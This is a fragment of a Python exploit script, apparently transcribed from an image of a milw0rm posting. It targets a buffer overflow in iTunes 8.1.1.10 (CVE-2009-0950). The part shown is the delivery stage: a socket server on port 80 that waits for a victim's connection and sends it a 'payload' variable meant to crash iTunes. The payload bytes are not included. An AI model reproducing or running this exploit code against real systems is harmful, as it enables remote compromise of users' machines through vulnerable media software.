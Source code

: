 print "[+] [iTunes 8.1.1.10 URI Bof Exploit Windows Version CVE-2009-0950](/blog/apple-itunes-81110-itms-itcp-remote-buffer-overflow-exploit-win)"
print "[+] Matteo Memelli aka ryujin __A-T__ offensive-security.com"
print "[+] www.offensive-security.com"
print "[+] Spaghetti & Pwnsauce"
s = socket(AF_INET, SOCK_STREAM)
s.bind(("0.0.0.0", 80))
s.listen(1)
print "[+] Listening on port 80"
c, addr = s.accept()
print "[+] Connection accepted from: %s" % (addr[0])
c.recv(1024)
c.send(payload)
print "[+] Payload sent, wait 20 secs for iTunes error!"
c.close()
s.close()

# [milw0rm.com](http://www.milw0rm.com/exploits/8934) [2009-06-12]

